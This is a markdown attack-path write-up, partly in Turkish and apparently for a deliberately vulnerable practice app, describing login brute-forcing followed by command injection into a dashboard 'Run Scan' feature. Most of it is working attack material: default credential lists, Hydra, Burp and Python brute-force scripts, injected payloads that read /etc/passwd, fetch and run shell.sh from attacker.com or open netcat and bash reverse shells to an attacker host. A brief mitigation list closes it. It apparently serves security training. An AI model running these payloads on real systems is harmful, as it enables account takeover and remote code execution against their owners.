

# Attack Path 9: Weak Credentials → Dashboard → RCE

## Overview
Brute-force / default şifre ile dashboard girişi, ardından "run scan" özelliği üzerinden command injection.

## Mermaid Diagram


## Adım Adım Senaryo

1. **Hydra / burp** ile login brute-force veya default creds dene.
2. **Dashboard'a giriş** → admin paneli.
3. **"Run Scan" formuna** `; nc -e /bin/sh attacker 4444` ekle.
4. **RCE** → foothold.

## Default Credentials
| Username | Password | Role |
|----------|----------|------|
| admin | admin123 | Administrator |
| analyst | analyst123 | Analyst |
| guest | guest | Read-only |
| root | toor | Super Admin |
| test | test123 | Testing |

## Brute-Force Commands

### Hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
    http-post-form "vulnerable-app.com/login:username=^USER^&password=^PASS^:Invalid"
```

### Burp Intruder
```
POST /login HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=§wordlist§
```

### Custom Python Script
```python
import requests

WORDLIST = [
    'admin123', 'password', '123456', 
    'admin', 'root', 'toor', 'letmein'
]

for pw in WORDLIST:
    r = requests.post(
        'http://vulnerable-app.com/login',
        data={'username': 'admin', 'password': pw}
    )
    if 'Dashboard' in r.text:
        print(f'[+] Found: admin:{pw}')
        break
```

## Command Injection After Login

### Scan Feature Abuse
```
# Normal input
target = 192.168.1.1

# Malicious input
target = 192.168.1.1; whoami
target = 192.168.1.1 && cat /etc/passwd
target = 192.168.1.1 | nc attacker.com 4444 -e /bin/sh
target = $(wget http://attacker.com/shell.sh | bash)
```

### Reverse Shell
```bash
# After command injection
bash -i >& /dev/tcp/attacker/4444 0>&1
```

## Vulnerable Endpoints
- `/login` - No rate limiting
- `/api/login` - No brute-force protection
- `/admin/scan` - Command injection in target parameter
- `/admin/tools` - Various command execution features

## Attack Chain
```
1. Enumerate users     → /api/users (no auth)
2. Brute-force login   → default creds
3. Access dashboard    → admin panel
4. Command injection   → scan feature
5. Reverse shell       → full compromise
```

## Difficulty
**Easy to Medium**

## Mitigation
- Strong password policy
- Account lockout after failed attempts
- MFA (Multi-Factor Authentication)
- Rate limiting
- Remove default credentials
- Input validation on all features
- Least privilege principle
